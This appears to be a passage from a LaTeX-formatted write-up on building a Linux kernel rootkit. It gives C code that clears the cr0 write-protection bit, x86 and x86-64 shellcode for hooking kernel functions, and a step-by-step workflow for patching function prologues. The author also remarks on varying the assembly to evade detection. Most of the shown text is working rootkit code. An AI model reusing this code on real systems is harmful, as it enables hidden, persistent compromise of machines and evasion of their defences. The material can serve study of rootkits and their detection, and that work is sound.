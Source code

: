 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
// Imported from AsmHooks.h
#define FORCE_INLINE __attribute__((always_inline)) inline

/**
 * Set WP bit in cr0 register to 0 to disable write protection on the CPU. (Allowing us
 * to overwrite function prologue without causing an oops.
 *
 * Note: It is imperative we take care to avoid race conditions in SMP systems,
 * hence the locking!
 */
FORCE_INLINE void disable_wp(void) {
    preempt_disable();
    write_cr0(read_cr0() & (~ 0x10000));
}

/**
 * Restores WP bit in cr0 register to restore write protection after we've changed it.
 */
FORCE_INLINE void enable_wp(void) {
    preempt_enable();
    write_cr0(read_cr0() | 0x10000);
}
\end{verbatim}

Another thing we must be mindful of is the CPU architecture of the target system, as this will change our required shellcode, \texttt{ASM_HOOK_CODE}:
\begin{verbatim}
// For 32 bit machines:
#if defined __i386__
    // push 0x00000000, ret
    #define ASM_HOOK_CODE "\x68\x00\x00\x00\x00\xc3"
    #define ASM_HOOK_CODE_OFFSET 1

// For 64 bit machines:
#elif defined __x86_64__
    // For 64 bit machines there is no push immediate so we have to perform a
    // mov + jmp.
    // mov rax 0x0000000000000000, jmp rax
    #define ASM_HOOK_CODE "\x48\xb8\x00\x00\x00\x00\x00\x00\x00\x00\xff\xe0"
    #define ASM_HOOK_CODE_OFFSET 2
#endif
\end{verbatim}
Defining our hook code in this manner allows the rootkit to remain relatively device-agnostic, which is pretty neato mosquito. As ASM is quite flexible, we could also achieve the above result in many different ways, which could help us evade detection.
\newpage


In summary, our general workflow when hooking a function is:
\begin{enumerate}
	\item Create asm\_hook object:
	\begin{itemize}
		\item Save pointer to original function.
		\item Save pointer to modified function.
		\item Save a copy of the ASM code we will be overwriting.
	\end{itemize}
	\item If created successfully, add created asm\_hook object to asm\_hooks\_list.
	\item Perform prologue patching:
	\begin{itemize}
		\item Disable write protection on the CPU.
		\item Overwrite prologue bytes with small shellcode buffer of `push dword 0; ret'.
		\item Copy across pointer to our modified function over zero'd out argument.
		\item Restore write protection on the CPU.
	\end{itemize}
\end{enumerate}
\end{document}
